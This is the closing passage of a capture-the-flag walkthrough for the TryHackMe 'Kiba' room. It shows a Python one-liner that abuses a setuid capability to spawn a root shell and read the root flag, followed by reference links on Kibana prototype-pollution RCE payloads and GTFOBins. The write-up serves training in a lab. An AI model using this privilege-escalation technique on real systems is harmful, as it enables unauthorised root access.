 ```
kiba@ubuntu:/home/kiba/.hackmeplease$ ./python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'.
     
whoami
root
cat /root/root.txt
```

Now, we can read the root flag and submit it to complete the room!

### Links Referred

1. TryHackMe - Kiba: https://tryhackme.com/room/kiba 
2. Prototype Pollution Explained: https://github.com/Kirill89/prototype-pollution-explained
3. RCE in Kibana: https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/
4. Payloads for Kibana RCE: https://github.com/mpgn/CVE-2019-7609
5. Linux Capabilities Commands: https://www.vultr.com/docs/working-with-linux-capabilities?__cf_chl_jschl_tk__=92b3dbab2c797cb4228927692a7bb187a9eeb61a-1598977955-0-AXZZjx81Q8Zt90gyrUYyMTt5KcXg1ndzEH86_mraDiZccs_tLTQ47VIxN5vz0YyLcaPwRhXsCeGJTaj_cAQydOPTLs0wGkzWA3bTIQChlvhjU5xJ-SNS2mCkXNMipUJZaxDpT4QrNmxBzhdxlyu7WJyY20jBHQUxyMsMH-lRvkoNgITcYD_xqmyg-LwPZDEtGatJ5hynYg1qPnY7CgRvsJ-uJhrlrA1Z8TOlZIEsiouWtBjlwn6tvFHpDaE-Ca_hGYSLuvNCSPliBFy7VH_37CuHgruzzCE856o3O8Xv34_Ac7UYW1Ar6Iotot0N7Fk7unjbJINAhZSwCEKVr6__pehxQbMYzBre3pSeXgXQNHj1aA8YvZTlABjAcfcOB-ejxg
6. GTFOBins: https://gtfobins.github.io/